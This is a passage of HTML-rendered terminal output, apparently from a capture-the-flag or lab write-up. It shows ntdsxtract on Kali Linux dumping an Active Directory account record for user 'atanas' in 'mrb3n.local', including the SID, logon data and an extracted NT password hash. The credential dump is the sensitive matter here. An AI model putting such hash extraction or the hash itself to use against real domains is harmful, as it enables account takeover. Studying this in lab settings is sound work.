<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fcf6f550-6d74-434e-a2c0-c6b1e688cb6e
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-1108
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:00:11+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:14:31+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:00:11.179960+00:00
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:15:27.213569+00:00
<br>Last logon timestamp:&nbsp;2017-07-21 14:14:31.615071+00:00
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2
<br>Bad password count:&nbsp;&nbsp;&nbsp;0
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;NORMAL_ACCOUNT
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, atanas
<br>Password hashes:
<br>&nbsp;<font color="ffff00">atanas:$NT$2b576acbe6bcfda7294d6bd18041b8fe</font>:S-1-5-21-1036816736-4081296861-1938768537-1108::
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/ntdsxtract-master</font>#</p>

</div>
</font>











